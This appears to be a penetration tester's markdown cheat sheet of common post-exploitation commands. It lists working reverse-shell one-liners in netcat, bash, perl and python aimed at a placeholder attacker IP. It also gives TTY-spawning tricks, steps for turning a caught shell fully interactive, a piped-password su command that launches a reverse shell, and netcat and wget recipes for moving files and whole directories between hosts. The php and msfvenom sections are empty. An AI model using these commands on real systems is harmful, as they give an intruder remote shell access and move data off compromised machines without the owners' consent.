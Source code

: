# common actions

**table of contents**:

- [shells](#shells)
  * [reverse shells](#reverse-shells)
    + [netcat](#netcat)
    + [bash](#bash)
    + [perl](#perl)
    + [python](#python)
    + [php](#php)
    + [msfvenom](#msfvenom)
  * [spawning tty shells](#spawning-shells)
    + [python](#python)
    + [bash/sh](#bash/sh)
    + [perl](#perl)
    + [text editors](#within-text-editors)
      - [vi](#vi)
    + [nmap](#nmap)
    + [script](#script)
  * [making fully-interactive shells](#making-them-fully-interactive)
    + [working around spawning issues](#spawn-workarounds)
- [file transfers](#file-transfers)
  * [wget](#wget)
  * [netcat](#netcat)
    + [files](#SENDING-FILES-BETWEEN-SYSTEMS)
    + [directories](#SENDING-WHOLE-DIRECTORIES)

---

# shells

## reverse shells

### netcat

<small>sending:</small>
```
nc -e /bin/sh [LOCAL IP] [PORT]
```

<small>catching:</small>
```
nc -lvp [PORT]
```

### bash

```
bash -i >& /dev/tcp/[LOCAL IP]/[PORT] 0>&1
```

### perl

```
perl -e 'use Socket;$i="[LOCAL IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php

### msfvenom

----
## spawning shells

#### **python**

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### **bash/sh**
```
/bin/sh -i
```
```
echo os.system('/bin/bash')
```

#### **perl**
```
perl -e 'exec "/bin/sh";'
```

#### **within text editors**:

##### _vi_:
```
:!bash
```
```
:set shell=/bin/bash:shell
```

#### **nmap**:
```
!sh
```

#### **script**

```
## this method can potentially avoid needing to do all the stty/fg/bg work below
/usr/bin/script -qc /bin/bash /dev/null
```

----
## making them fully interactive

when getting a reverse shell through `netcat`, by default it's non-interactive - meaning it's a pain. once you run any of the above scripts to get a partially interactive shell, you can do a few more things to optimize:

_non-interactive shell_:
```
## get partially interactive shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

_remote shell_:
```
## background process netcat in the remote shell
user@remote:$ ^Z
```
_local env_:
```
## get rows/cols values from your current env
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

## so you can pass keyboard shortcuts, bring netcat back to the foreground 
user@local:~$ stty raw -echo; fg
```
<small>**[ZSH NOTE]**: zsh, specifically, only respects the -echo until the next prompt which means that you need to type your next command all in one line</small>

_remote env_:
```
## set the correct sizes for the remote shell
user@remote:~$ stty rows [ROWS] cols [COLS]

## export shell to ENV
export SHELL=/bin/bash

## enable colors
user@remote:~$ export TERM=xterm-256color

## reload shell to apply the TERM variable
user@remote:~$ reset 
OR
user@remote:~$ exec /bin/bash
```

#### spawn workarounds

_for non-responsive shell spawning when you need to change users_

first start a listening on your local host machine:

```
nc -nlvp [PORT]
```

then, from the remote/target machine:

```
echo "[PASSWORD]" | su - [USER] -c "bas -i >& /dev/tcp/[LOCAL IP]/[PORT] 0>&1"
```

---

## file transfers

### wget

**usecase**: fetch files/scripts from your local machine on the remote host

_sender_:
```
cd souce_directory
python -m http.server 
```

_'receiver' (more accurately, a fetcher here)_:
```
## python http server always starts by default at port 8000
## unless otherwise specified
wget http://[LOCAL IP]:8000/[FILE YOU WANT]
```

### netcat

##### SENDING FILES BETWEEN SYSTEMS

_receiver_:

start a listener and provide the name you want to give the sent file

```
nc -l -p [PORT] > [FILENAME]
```

_sender_:
```
nc -w 3 [RECEIVER IP] [PORT] < [FILENAME]
```

##### SENDING WHOLE DIRECTORIES

_receiver_:

maybe first create a separate directory if you want one, since this is going to send multiple files, then `cd` into it and start a `netcat` listener

```
nc -l -p [PORT] | tar xf -
```

_sender_:

```
cd source_directory
tar cf - . | nc [RECEIVER IP] [PORT]
```